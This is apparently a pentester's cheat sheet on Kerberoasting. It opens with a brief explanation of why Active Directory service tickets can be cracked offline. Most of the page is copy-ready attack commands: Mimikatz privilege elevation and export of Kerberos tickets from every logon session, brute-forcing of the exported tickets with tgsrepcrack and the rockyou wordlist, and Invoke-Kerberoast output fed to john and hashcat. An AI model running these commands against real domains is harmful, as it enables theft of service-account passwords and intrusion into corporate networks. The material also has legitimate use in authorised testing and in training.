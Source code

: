 According to the Kerberos protocol, the service ticket is encrypted using the SPN's password hash. If we are able to request the ticket and decrypt it using brute force or guessing, we will know the password hash, and from that we can crack the clear text password of the service account. As an added bonus, we do _not_ need administrative privileges for this attack.

### Install kerberoast
```shell
sudo apt update && sudo apt install kerberoast
```

### Extract ticket Using mimikatz Format kirbi
[[Mimikatz]]

```powershell
privilege::debug
token::elevate
standard::base64 /output:true
kerberos::list /export #Export ticket of the current session (kirbi format)
sekurlsa::tickets /export #Export ticket of all sessions (kirbi format)
```


### Brute Force
```shell
python /usr/share/kerberoast/tgsrepcrack.py /usr/share/wordlists/rockyou.txt MyExtortedTicket.kirbi
```

### Exporting all Service Ticket And cracking Using john
```bash
Invoke-Kerberoast -domain adsec.local | Export-CSV -NoTypeInformation output.csv
john --session=Kerberoasting output.csv
```

### Exporting all Service Ticket And cracking Using HashCat

```bash
Invoke-Kerberoast -OutputFormat hashcat | % { $_.Hash } | Out-File -Encoding ASCII hashes.kerberoast
hashcat -m 13100 -a 0 hashes.kerberoast /usr/share/wordlists/rockyou.txt 
```